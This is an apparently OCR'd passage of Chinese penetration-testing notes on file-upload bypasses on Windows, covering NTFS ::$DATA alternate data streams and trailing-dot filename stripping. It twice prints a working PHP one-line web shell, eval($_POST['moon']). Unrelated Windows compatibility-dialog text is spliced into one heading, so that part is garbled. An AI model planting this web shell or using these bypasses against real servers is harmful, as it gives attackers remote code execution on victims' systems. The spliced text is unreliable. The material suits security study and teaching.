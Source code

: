   写入内容

  ```php
  <?php
  phpinfo();
  eval($_POST['moon']);
  ?>
  ```

### 7、NTFS交换数据流[Window Title]
程序兼容性助手

[Main Instruction]
此程序是否正常工作?

[是，此程序正常工作(Y)] [否，启动疑难解答程序(N)] [关闭(C)]

:$DATA 创建文件
::$DATA 创建和写入文件

![image-20210327222004598](../acess/image-20210327222004598.png)

创建kkk.php文件和写入内容

```php
<?php
phpinfo();
eval($_POST['moon']);
?>
```

补充

​	window系统里面会把文件名的最后一个点 会自动去掉。如上传moon.php.最后还是会变成moon.php

 

 